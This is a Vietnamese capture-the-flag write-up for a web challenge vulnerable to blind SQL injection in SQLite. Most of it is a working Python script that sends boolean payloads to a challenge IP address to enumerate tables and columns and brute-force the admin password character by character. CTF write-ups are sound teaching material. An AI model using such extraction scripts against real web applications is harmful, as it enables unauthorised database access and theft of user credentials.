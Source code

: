 Sử dụng ký tự `'` để xem có bị dính SQLi hay không, thì thấy bị dính lỗi

![image](https://github.com/user-attachments/assets/91d74e82-ff60-4e20-997d-744db7d38d5e)

Thấy web sử dụng sqlite làm database với câu lệnh truy vấn

```SELECT * FROM users WHERE uid = 'username'```

Do description cho biết password nằm trong cột `upw`, nên có thể viết script bruteforce password của admin luôn.

Ở đây mình viết thêm cả script để dump các thuộc tính của các bảng trong db luôn phòng trường hợp cần dùng đến.

```python
import requests
url = 'http://103.97.125.56:31201/?uid='
payload_count_table = "' or (SELECT count(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' ) ="
omega = 'abcdefghijklmnopqrstuvwxyz0123456789_'
def send(url):
    response = requests.get(url)
    # print(url)
    if response.status_code == 200:
        if 'exists' in response.text:
            return True
    return False
# Lấy số lương table
i = 0
stop = True
while (stop):
    i+=1
    if send(url+payload_count_table+str(i)+'--+'):
        stop = False
count = i
print("So luong bang:",str(i))


# Lấy tên bảng
payload_length_table = "' or (SELECT length(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name not like 'sqlite_%' limit 1 offset "
list_table = []
for i in range(count):
    # Độ dài tên từng bảng
    j = 0
    stop = True
    while (stop):
        j+=1
        if send(url+payload_length_table+str(i)+')= '+str(j)+'--+'):
            stop = False
    length = j
    # brute force tên bảng
    name=''
    for j in range(1,length+1):
        for c in omega:
            payload_name_table = f"' or (SELECT hex(substr(tbl_name,{j},1)) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' limit 1 offset {i}) = hex('{c}') --+"
            if send(url+payload_name_table):
                name +=c
                break
    list_table.append(name)

print("Các bảng: ",list_table)



# Lấy tên cột của các bảng
for table in list_table:
    list_col = []
    i = 0
    stop = True
    while (stop):
        i+=1
        payload = poayload_count_col= f"' or (select count(name) from pragma_table_info('{table}') as tblInfo) = {i} --+"
        if send(url+payload):
            stop = False
    count = i
    print("Số lượng cột: ",count)
    for i in range(count):
        # Độ dài tên từng cột
        j = 0
        stop = True
        while (stop):
            j+=1
            payload_length_col = f"' or (SELECT length(name) from pragma_table_info('{table}') as tblInfo limit 1 offset {i}) = {j} --+"
            if send(url+payload_length_col):
                stop = False
        length = j
        # brute force tên côt
        print(f"Độ dài cột {i}:",length)
        name=''
        for j in range(1,length+1):
            for c in omega:
                payload_name_col = f"' or (SELECT hex(substr(name,{j},1)) FROM pragma_table_info('{table}') limit 1 offset {i}) = hex('{c}') --+"
                if send(url+payload_name_col):
                    name +=c
                    break
        list_col.append(name)
    print(f"các cột của bảng {table}: ",list_col)

# Độ dài password
j = 0
stop = True
while (stop):
    j+=1
    payload_length_col = f"' or (SELECT length(upw) from users where uid = 'admin') = {j} --+"
    if send(url+payload_length_col):
        stop = False
length = j
# brute force password
print(f"Độ dài password:",length)
password=''
for j in range(1,length+1):
    for c in omega:
        payload_name_col = f"' or (SELECT hex(substr(upw,{j},1)) from users where uid = 'admin') = hex('{c}') --+"
        if send(url+payload_name_col):
            password +=c
            break
print("password of admin: ",password)
```
Sau khi có password là `y0u_4r3_4dm1n` thì đăng nhập trong `/login` để lấy flag thôi
